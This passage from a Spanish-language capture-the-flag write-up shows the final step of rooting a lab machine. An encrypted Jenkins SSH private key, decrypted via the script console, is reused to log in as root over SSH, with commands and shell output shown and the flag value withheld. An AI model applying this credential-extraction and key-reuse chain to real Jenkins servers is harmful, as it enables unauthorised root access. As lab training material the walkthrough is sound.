8xrc7jr+ZcZtHSJRlK1o+VaeNOSeQut3iZjmpy0Ko1ZiC8gFsVJg8nWLCat10cp+xTy+fJ1VyIMHxUWrZu+duVApFYpl6ji8A4bUxkroMMgyPdQU8rjJwhMGEP7TcWQ4Uw2s6xoQ7nRGOUuLH4QflOqzC6ref7n33gsz18XASxjBg6eUIw9Z9s5lZyDH1SZO4jI25B+GgZjbe7UYoAX13MnVMstYKOxKnaig2Rnbl9NsGgnVuTDlAgSO2pclPnxj1gCBS+bsxewgm6cNR18/ZT4ZT+YT1+uk5Q3O4tBF6z/M67mRdQqQqWRfgA5x0AEJvAEb2dftvR98ho8cRMVw/0S3T60reiB/OoYrt/IhWOcvIoo4M92eo5CduZnajt4onOCTC13kMqTwdqC36cDxuX5aDD0Ee92ODaaLxTfZ1Id4ukCrscaoOZtCMxncK9uv06kWpYZPMUasVQLEdDW+DixC2EnXT56IELG5xj3/1nqnieMhavTt5yipvfNJfbFMqjHjHBlDY/MCkU89l6p/xk6JMH+9SWaFlTkjwshZDA/oO/E9Pump5GkqMIw3V/7O1fRO/dR/Rq3RdCtmdb3bWQKIxdYSBlXgBLnVC7O90Tf12P0+DMQ1UrT7PcGF22dqAe6VfTH8wFqmDqidhEdKiZYIFfOhe9+u3O0XPZldMzaSLjj8ZZy5hGCPaRS613b7MZ8JjqaFGWZUzurecXUiXiUg0M9/1WyECyRq6FcfZtza+q5t94IPnyPTqmUYTmZ9wZgmhoxUjWm2AenjkkRDzIEhzyXRiX4/vD0QTWfYFryunYPSrGzIp3FhIOcxqmlJQ2SgsgTStzFZz47Yj/ZV61DMdr95eCo+bkfdijnBa5SsGRUdjafeU5hqZM1vTxRLU1G7Rr/yxmmA5mAHGeIXHTWRHYSWn9gonoSBFAAXvj0bZjTeNBAmU8eh6RI6pdapVLeQ0tEiwOu4vB/7mgxJrVfFWbN6w8AMrJBdrFzjENnvcq0qmmNugMAIict6hK48438fb+BX+E3y8YUN+LnbLsoxTRVFH/NFpuaw+iZvUPm0hDfdxD9JIL6FFpaodsmlksTPz366bcOcNONXSxuD0fJ5+WVvReTFdi+agF+sF2jkOhGTjc7pGAg2zl10O84PzXW1TkN2yD9YHgo9xYa8E2k6pYSpVxxYlRogfz9exupYVievBPkQnKo1Qoi15+eunzHKrxm3WQssFMcYCdYHlJtWCbgrKChsFys4oUE7iW0YQ0MsAdcg/hWuBX878aR+/3HsHaB1OTIcTxtaaMR8IMMaKSM=}</privateKey>
          </privateKeySource>
        </com.cloudbees.jenkins.plugins.sshcredentials.impl.BasicSSHUserPrivateKey>
      </java.util.concurrent.CopyOnWriteArrayList>
    </entry>
  </domainCredentialsMap>
~~~
Ahora, buscando en internet como hacerlo, se encontro esta pagina https://devops.stackexchange.com/questions/2191/how-to-decrypt-jenkins-passwords-from-credentials-xml, donde menciona que provechando que tenemos acceso a "script console" mediante la interfaz gráfica, se puede descifrar las credenciales ssh de root.

Efectivamente, se trata de una clave privada, entonces se me ocurre copiarla en mi maquina atacante y entrar por ssh a la ip, y si no funciona entonces podria probarla para entrar como root dentro del mismo contenedor.
~~~bash
nano id_rsa                                                             

chmod 600 id_rsa

ssh -i id_rsa root@10.10.11.10           
The authenticity of host '10.10.11.10 (10.10.11.10)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:28: [hashed name]
    ~/.ssh/known_hosts:42: [hashed name]
    ~/.ssh/known_hosts:43: [hashed name]
    ~/.ssh/known_hosts:53: [hashed name]
    ~/.ssh/known_hosts:68: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.10' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-94-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Thu Oct 23 08:34:22 PM UTC 2025

  System load:              0.10546875
  Usage of /:               66.3% of 5.81GB
  Memory usage:             44%
  Swap usage:               0%
  Processes:                221
  Users logged in:          0
  IPv4 address for docker0: 172.17.0.1
  IPv4 address for eth0:    10.10.11.10
  IPv6 address for eth0:    dead:beef::250:56ff:fe94:5378

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Feb 12 13:15:44 2024 from 10.10.14.40
root@builder:~# id
uid=0(root) gid=0(root) groups=0(root)
~~~
Por suerte si se pudo ingresar como root al sistema fuera del contenedor.
Mas bien porque ya me encontraba realmente cansado.

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con acceso como root a la maquina, ya se puede leer la root flag sin problema.
~~~
root@builder:~# hostname
builder
root@builder:~# cd /root
root@builder:~# cat root.txt 
<Encuentre su propia root flag>
~~~
 🎉 Sistema completamente comprometido - Root obtenido

